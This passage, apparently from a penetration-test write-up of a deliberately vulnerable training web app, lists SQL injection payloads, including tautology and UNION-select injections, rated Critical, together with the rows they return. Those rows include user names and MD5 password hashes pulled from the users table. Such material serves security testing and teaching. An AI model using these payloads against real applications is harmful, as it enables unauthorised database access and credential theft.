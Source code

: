 ```
First name: Pablo
Surname: Picasso

ID: ' OR '1'='1
First name: Bob
Surname: Smith
```

*Severity:* `Critical`
##### Payload: `' OR 1=1 #`
```
ID: ' OR 1=1 #
First name: admin
Surname: admin

ID: ' OR 1=1 #
First name: Gordon
Surname: Brown

ID: ' OR 1=1 #
First name: Hack
Surname: Me

ID: ' OR 1=1 #
First name: Pablo
Surname: Picasso

ID: ' OR 1=1 #
First name: Bob
Surname: Smith
```

*Severity:* `Critical`
##### Payload: `' union select user, password from users#`
```
ID: ' union select user, password from users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' union select user, password from users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' union select user, password from users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' union select user, password from users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' union select user, password from users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

